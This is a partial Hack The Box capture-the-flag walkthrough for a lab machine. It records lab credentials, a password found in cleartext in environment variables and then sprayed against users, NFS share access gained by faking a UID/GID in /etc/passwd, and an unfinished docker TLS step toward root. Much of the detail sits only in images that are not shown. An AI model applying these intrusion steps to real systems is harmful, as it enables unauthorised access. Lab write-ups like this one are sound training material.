








```
Scope:
10.10.11.96

Creds:
d.cooper@fries.htb
D4LE11maan!!
```

## CVE-2025-2945


But the above PoC didnt work since it didn't work with kerberos auth. Instead I used the `metasploit` module it's based upon:


Once I put down the following options I was able to run it successfully:





I started enumerating the directory:


From here I enumerated the `env` variables where I found a cleartext password:


```
Friesf00Ds2025!!
```

Next up I tried spraying this password against found users until I found one that matched:



## SSH Access

Using these creds I logged in:



### Mounting NFS Share

I used `ligolo` to port forward so I could access the `nfs` service:



Once I had the port forward set up I created the drive I would mount the share 

```bash
sudo mkdir ./mount
sudo mount -t nfs -o ro,soft,timeo=10 240.0.0.1:/srv/web.fries.htb/certs ./mount
```




I could still not access the mount though becaues I did not have the proper GUID:


In order to get access I had to create a "dummy" account with this GUID.

```bash
sudo useradd tester
sudo nano /etc/passwd

# Add the following GUID
tester:x:1001:59605603::/home/tester:/bin/sh
```



Now we should be able to access the mounted share.

```bash
sudo -u tester cp -r mount /tmp/mount
sudo chown kali /tmp/mount
sudo chown kali /tmp/mount/*
sudo umount ./mount
```




# TODO FORGE ROOT cert.pem

```bash
docker context create remote-tls --docker "host=tcp://127.0.0.1:2376,\
ca=/home/svc/.docker/ca.pem,\     
cert=/home/svc/.docker/cert.pem,\     
key=/home/svc/.docker/key.pem"
```


---

**Finished**

[^Links]: [[Hack The Box]]